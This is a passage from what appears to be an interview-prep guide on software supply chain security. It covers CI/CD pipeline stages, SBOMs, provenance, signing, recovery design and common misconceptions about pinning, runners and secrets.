Use workload identity such as OIDC where appropriate instead of permanent credentials.

### Generate Evidence

Security should be verifiable through:

```text
SBOM
+
Provenance
+
Attestations
+
Signatures
+
Audit Logs
```

### Make Recovery Possible

Assume components can eventually be compromised.

Design for:

```text
Detection
+
Isolation
+
Credential Rotation
+
Artifact Replacement
+
Rollback
+
Rebuild
```

---

## Complete Production Pipeline

A senior backend engineer should be able to reason about a pipeline such as:

```text
Pull Request
    ↓
Dependency Review
    ↓
Lint
    ↓
Unit Tests
    ↓
Integration Tests
    ↓
Security Scan
    ↓
Matrix Testing
    ↓
Trusted Build
    ↓
Docker Image
    ↓
Image Scan
    ↓
SBOM
    ↓
Provenance
    ↓
Signing / Attestation
    ↓
ECR
    ↓
Staging
    ↓
Approval
    ↓
Production
    ↓
Monitoring
    ↓
Rollback if Required
```

The important security property is that each stage reduces uncertainty about the artifact before it reaches production.

---

## Interview Traps

### "We pin dependencies, so the supply chain is secure."

False.

Pinned dependencies improve reproducibility but do not prove that the dependency is safe.

### "The action uses a version tag, so it cannot change."

Not necessarily.

Tags are references and should not automatically be treated as immutable.

### "SHA pinning guarantees security."

No.

It guarantees reference to a particular commit, not that the commit is trustworthy.

### "A private runner is automatically safer."

No.

A self-hosted runner can have greater privilege and network access than a GitHub-hosted runner.

### "SBOM prevents attacks."

No.

An SBOM provides component visibility. It does not itself prevent compromise.

### "A successful build means the artifact is trustworthy."

No.

Build success says the build completed. It does not establish source integrity, dependency trust, provenance, or artifact authenticity.

### "Production can rebuild the image."

Rebuilding may produce a different artifact.

Prefer promoting the already-tested immutable artifact.

### "Masked secrets cannot leak."

Masking reduces accidental log exposure but does not make secret handling inherently safe.

---

## Key Takeaways

- **Supply chain security covers the entire path from source code and dependencies through GitHub Actions, runners, builds, artifacts, registries, and production deployment; dependency scanning alone is not sufficient.**
- **Treat GitHub Actions, third-party actions, self-hosted runners, Docker builds, and infrastructure code as executable supply chain components that require trust decisions and least privilege.**
- **Use immutable artifacts, SBOMs, provenance, attestations, signatures, and controlled registry access to establish what was built, how it was built, and whether the production artifact is the expected one.**
- **Separate untrusted CI from trusted build and deployment environments, minimize GITHUB_TOKEN and AWS permissions, and prefer short-lived OIDC-based cloud identity over long-lived credentials.**
- **Design for compromise rather than assuming prevention is perfect: detect, isolate, rotate credentials, rebuild from trusted inputs, verify artifacts, and roll back to a known-good release.**